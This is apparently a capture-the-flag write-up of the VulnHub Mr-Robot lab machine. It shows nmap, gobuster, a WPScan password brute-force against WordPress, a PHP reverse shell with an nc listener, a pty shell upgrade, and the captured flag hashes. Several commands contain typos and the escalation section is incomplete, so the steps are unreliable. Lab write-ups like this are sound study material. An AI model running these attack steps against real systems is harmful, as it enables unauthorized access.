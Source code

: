 # VulnHub Mr.Robot Write - Up
## Overview
- **Machine Name:** [Mr-Robot: 1](https://www.vulnhub.com/entry/mr-robot-1,151/ "Mr-Robot: 1 on Vulnhub")
- **Platform:** VulnHub
- **Difficulty:**  Beginner-Intermediate
- **Date Completed:** August 17, 2025
- **Tools Used:** Kali Linux, nmap, GoBuster, WPScan nano, Python
## Objectives
- Capture all three flags
- Learn and demonstrate exploitation and escalation techniques

---

## Methodology

### 1. Information Gathering
~~~

sudo nmap -sS -T4 10.38.110-120 

~~~
- Identify the ports on the machine to evaluate the type of machine  
 - Port 80 (HTTP) open -> Apache web server detected  
 - Port 443 (HTTPS) open  
 - Port 22 (SSH) open  
### 2. Enumeration (Flag 2)
~~~

gobuster dir -u http://10.38.1.111 -w/usr/share/dirbuster/wordlist/directory -list-2.3-small.txt

~~~
- Swept the machines location to find additional dir and files using GoBuster  
- /robots.txt -> contained the extension which led to the first flag as well as a dictionary  
- WordPress login page discovered -> potential attack vector with the dictionary list discovered in robots.txt  
~~~

cat fsociety.dic | sort -u> filtered.dic

~~~
- Sorted the dictionary list to remove redundancies and order them alphabetically creating the new filtered.dic

### 3. Exploitation (Flag 2)
~~~

wpscan --url http://10.38.1.111/wp-login/php -U 'elliot' -P filtered.txt

~~~
- Ran the filtered text against the password with the username elliot
- Obtained user-level shell access
~~~

locate php-re

gedit php-reverse-shll.php

~~~
- Locate and edit the contents of a reverse-php-shell which will allow us access into the

~~~

nc -lvnp 443

~~~
- We trigger the script by navigating to a URL that does not exist  
 - Within the machine, we were able to locate the /home/robot directory -> We find two files a .raw-md5 and a .txt  
 - We crack the hash to find the password for robot  
 - Now that we have the password we can login to the Mr.Robot and read .txt  
### 4. Privilege Escalation (Flag 3)


~~~

python -c 'import pty;pty.spawn("/bin/bash")'

su robot

~~~



---

## Flags Captured  
Flag 1: 073403c8a58a1f80d943455fb30724b9  
Flag 2: 822c73956184f694993bede3eb39f959  
Flag 3: 04787ddef27c3dee1ee161b21670b4e4  
---

## Lessons Learned
- Deploy password salting  
- Require login attempt limit for timeframes
- 
- 
---

## References
Mahcine on Vulnhub: https://www.vulnhub.com/entry/mr-robot-1,151/
Video Tutorial: https://www.youtube.com/watch?v=D_aiSOmC6V8
